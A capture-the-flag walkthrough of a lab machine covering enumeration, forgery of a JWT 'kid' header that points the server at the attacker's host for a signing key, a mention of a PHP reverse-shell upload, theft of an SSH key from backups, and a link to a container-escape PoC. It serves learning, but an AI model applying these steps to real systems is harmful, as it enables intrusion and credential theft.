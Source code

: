 # Enumeration

Nmap scan show us machine is openning these ports: `22,80,10010` 

Directory enumeration with gobuster
```
/login                (Status: 200) [Size: 1250]
/register             (Status: 200) [Size: 1422]
/admin                (Status: 403) [Size: 9]
/logout               (Status: 302) [Size: 209] [--> http://10.10.10.230/]
```
Visit the website, we explore the website functionality.

Register an account and login to the website

We see the website functionality is very basic, you can login and then you can add notes, view your own notes.

Viewing page source code doesn't show any interesting,

I use Burp Suite to explore the request, especially the request/response headers (my favorite place). You can tell a lot about what is running underneath based on the HTTP headers

I see they have Set-Cookie header. So every time we send a request to view notes, it uses `Cookie: auth=ey...` to identify our rights inside the website, and it is using JSON Web Token

I go to jwt.io to decrypt to token content and got this.

Token data:
```
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://localhost:7070/privKey.key"
}

{
  "username": "r3ot",
  "email": "1@gmail.com",
  "admin_cap": 0
}
```

I am familiar with Web Application and how they work, especially the jwt authentication. But I rarely see the `kid` ( Key ID) in the JWT header, and since it is using `RS256` alg, it must be signed by a private key and the `"kid": "http://localhost:7070/privKey.key"` is showing that where the back-end get the private key from.

I did some research on what is the `kid` header and can we manipulate it ?. I ran into this [article](https://blog.pentesteracademy.com/hacking-jwt-tokens-kid-claim-misuse-command-injection-e7f5b9def146)

In the aricle, they mention about `kid` parameter get the private key from an absolute path point to the private key inside the machine.

But our `kid` parameter is point to a file hosted by a web server.

So we can kinda guest that, they are doing some http request to that `localhost:7070` to get the private key. Like `os.popen(curl $(kid))` , or something like that.

To test our theory to see if the website is vulnerable to that, we can generate a jwt with this value (and signed it with our private key)

```
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.14.71:8000/a.txt"
}

{
  "username": "r3ot",
  "email": "1@gmail.com",
  "admin_cap": 1
}
```

**Note**: We modify and `kid` value to our local web server ( `python -m SimpleHTTPServer` can help you spin up a web server quickly) . We also modify the `admin_cap` value to `1` since we have control over these values.

Modify the Cookie value with our token

```
auth=<our_tokens
```

And then we send our request to server. Watch our local machine logs, we did receive request from the box by modifying `kid` value => It is vulnerable 

Now it's time to take a step further. We will modify the `kid` value and point the URL to our private key and have the box fetch private key from our machine, verify the token

```
{
  "typ": "JWT",
  "alg": "RS256",
  "kid": "http://10.10.14.71:8000/privKey.key" // Our private key
}

{
  "username": "r3ot",
  "email": "1@gmail.com",
  "admin_cap": 1
}
```

When the web server get our private key and verify it with our private key, our token become valid => We just got the admin priviledge inside the website

Go to `/admin` , we saw a upload file function and view all notes function

Click to view all notes, we can see that they have some notes:
- One is about PHP file being executed and it's not secure
- Second is about some backups

We can upload a php reverse shell file to get our reverse shell
=> We got RCE.

# Exploit
======================================================
cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
noah:x:1000:1000:Noah:/home/noah:/bin/bash

====================================================
cp home.tar.gz /tmp
tar -zxcf home.tar.gz 
COPY id_rsa private key and login
=> got user

====================================================
sudo -l
(ALL) NOPASSWD: /usr/bin/docker exec -it webapp-dev01*

========================
Exploit: https://programmersought.com/article/71085031667/
Source code: https://github.com/Frichetten/CVE-2019-5736-PoC

Install Docker image without internet:
https://stackoverflow.com/questions/48125169/how-run-docker-images-without-connect-to-internet
